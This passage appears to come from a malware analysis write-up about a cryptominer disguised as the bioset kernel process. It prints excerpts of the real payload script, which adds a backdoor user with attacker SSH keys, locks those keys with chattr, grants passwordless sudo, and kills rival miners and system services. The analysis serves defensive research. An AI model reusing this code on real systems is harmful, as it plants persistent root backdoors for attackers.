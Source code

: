<img src={IPs} width="600"/>

### Miner disguised as bioset kernel process

[The payload dropped](https://www.virustotal.com/gui/file/b76bad860854d951373db76bfa33aab01ca66abbb8b5a82e14ebfd8fa2f24a03)
performs classic operations: from unsetting the history (so the commands won’t show),
adding a new user, inserting various SSH keys in `authorized_keys` file and
editing the `sudoers` file to start cryptomining activities.

```bash
useradd -m tty0
cd ~tty0 ; mkdir .ssh ; cd .ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBM4NOmZw9pMeG/jNpQ1qA7cpSfhzy0JvuEgFuoIM3Hartkcdbx1yRKdZ3rdB12Umt7+z5R+Xnl88WOemKJZ35JMK3sqEr1uQ+kA4oq8POfN3QqJ+xZbIdY7Odlc7xquIWhXjPz0d1aKPikQItZ/oVEyewX3Ps1wKLflVSEhKnEIvaXb6Mp5ZYMHe7MNdIoamNgRIDjBi98a3WkXQRCbpjsmulUxdZ+QjmLBbubutqIxdYKkFH5F2sZm1RYcp76mRm26Num+Uoer3ecdoe/CLv9jBfZOyIrL2ICa8bvT5DNhP1CNKYnhMmHDKyjALgxiMjhFisUVW893K6AKt0BUJ/ gbrc@ions5" > authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDxLMf8/BPlrG2ayMqkvncQqxeKPmrP0AynGhindZyNtP/CmEpRgPRZ06yOnvDxbzVhxCo1qLW1SDxpSfEOI4b0RQH+4YJZMzE4cvObPEqhqWRZr6iPrqQqwvGl0HIu+hOdn0KfKiC1yWmBZqvc2AUOP/EniRaVdtgTsI7RG/4fEvoxlaeVvy/Lpkvn5rhAIGaKa/AMSBipBZG/GCTFCHd89xtZ7qtl9nmDjI7FBEZIsCWPz9a4UT2yDqkMvVd2LvZgta+scvv/L+duJ7qR3i6c2nK3h17CqNNBJRZ0jPMMCwpaO+vAYMXSDlnjVBqXN7khTHnmtXwow2byGBM/Ib9z imran@imran" >> authorized_keys
chmod 600 authorized_keys
chown tty0 authorized_keys
chcon -R unconfined_u:object_r:user_home_t:s0 authorized_keys
restorecon -v authorized_keys
cd ..
chmod 700 .ssh
chown -R tty0 .ssh
chattr -R +a +i .ssh
...
grep tty0 /etc/sudoers
if [ $? = 0 ]; then
    echo sudo
else
    echo "%tty0   ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
fi
```

However, the script seems to be pretty well crafted. The next code snippets
highlight the most interesting things we have discovered while inspecting the script.

**Insight 1**. The script kills other miners before starting .

```bash
crontab -r
kill -9 `netstat -anp | grep 5.133.65.54 |  awk '{print $7}' | cut -f 1 -d '/'`
kill -9 `netstat -anp | grep 178.128.242.134 |  awk '{print $7}' | cut -f 1 -d '/'`
...
systemctl stop pwnriglhttps.service
systemctl stop pwnrig.service
systemctl disable pwnrig.service
systemctl disable pwnriglhttps.service
systemctl stop kdomp.service
systemctl stop ModeManager.service
systemctl stop cron.service
systemctl disable cron.service
systemctl stop c3pool_miner.service
systemctl disable c3pool_miner.service
```
